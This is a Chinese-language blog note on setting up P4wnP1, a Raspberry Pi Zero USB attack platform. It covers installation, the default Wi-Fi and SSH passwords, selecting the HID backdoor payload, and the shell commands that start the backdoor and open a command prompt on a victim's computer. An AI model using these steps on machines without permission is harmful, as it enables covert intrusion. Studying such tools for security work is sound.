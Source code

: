 ```yaml
---
title: 【笔记】P4wnP1 学习笔记
categories:
  - Raspberry Pi
date: 2020-01-15 22:44:47
---
```


## 前言

P4wnP1 is a highly customizable USB attack platform, based on a low cost Raspberry Pi Zero or Raspberry Pi Zero W (required for HID backdoor).（[官网](https://github.com/mame82/P4wnP1)）

<!-- more -->

## ~旧安装方法~

### 准备工作

- 已配置`wifi`和`ssh`的`raspbian-stretch`系统的树莓派

### 安装

#### 克隆源代码

``` sh
git clone https://github.com/mame82/P4wnP1.git
```

#### 执行安装程序

``` sh
cd P4wnP1
./install.sh
```

#### 安装完成

![01.png](/images/20200115224447/01.png)

## 新安装方法

### 准备工作

- [P4wnP1_0_1_alpha.img](https://github.com/mame82/P4wnP1/releases)

### 安装

- 直接将`P4wnP1.img`烧录在树莓派

### 启动方法

- 连接wifi

> 名称：`P4wnP1`
> 密码：`MaMe82-P4wnP1`

- 登录ssh

> ip地址：`172.24.0.1`
> 端口号：`22`
> 用户名：`pi`
> 密码：`raspberry`

### 安装完成

![02.png](/images/20200115224447/02.png)

## 配置

- 重启树莓派

### 修改 setup.cfg 文件

``` sh
nano P4wnP1/setup.cfg
```

### 编辑 setup.cfg 文件

``` sh
#PLAYLOAD=network_only.txt
PLAYLOAD=hid_backdoor.txt
```

## 启动

- 重启树莓派

### 查看帮助

``` sh
P4wnP1 shell > help
```

### 启动后门

- 被害者电脑会有`PowerShell`窗口闪过

``` sh
P4wnP1 shell > FireStage1
```

### 发送脚本

``` sh
P4wnP1 shell > SendDuckyScript
```

### 获取命令提示符

``` sh
P4wnP1 shell > shell
```

## 完成

## 参考文献

[南墙的博客](http://imzifeng.cn/2018/07/badusb-on-raspberry-pi-zero-w/)
[YouTuBe——Seytonic](https://www.youtube.com/watch?v=Pft7voW5ui8)
[沫延说的博客](https://blog.topstalk.com/raspberry-pi-zero-w-安装-p4wnp1-完整教程/)

